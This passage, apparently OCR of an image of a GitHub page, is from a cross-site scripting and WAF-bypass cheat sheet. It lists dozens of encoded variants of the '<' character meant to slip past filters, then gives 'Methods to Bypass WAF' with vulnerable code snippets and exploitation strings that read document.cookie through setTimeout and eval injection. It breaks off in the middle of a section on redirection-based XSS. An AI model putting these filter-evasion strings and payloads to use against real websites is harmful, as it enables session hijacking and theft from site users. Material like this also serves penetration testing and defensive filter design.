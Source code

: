 ```js
&#x0003c
&#x00003c
&#x000003c
&#x3c;
&#x03c;
&#x003c;
&#x0003c;
&#x00003c;
&#x000003c;
&#X3c
&#X03c
&#X003c
&#X0003c
&#X00003c
&#X000003c
&#X3c;
&#X03c;
&#X003c;
&#X0003c;
&#X00003c;
&#X000003c;
&#x3C
&#x03C
&#x003C
&#x0003C
&#x00003C
&#x000003C
&#x3C;
&#x03C;
&#x003C;
&#x0003C;
&#x00003C;
&#x000003C;
&#X3C
&#X03C
&#X003C
&#X0003C
&#X00003C
&#X000003C
&#X3C;
&#X03C;
&#X003C;
&#X0003C;
&#X00003C;
&#X000003C;
\x3c
\x3C
\u003c
\u003C
Methods to Bypass WAF – Cross-Site Scripting
General issues
Stored XSS
If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

Reflected XSS in Javascript
Example: <script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
Exploitation: /?xss=500); alert(document.cookie);//
DOM-based XSS
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
XSS via request Redirection
Vulnerable code:
```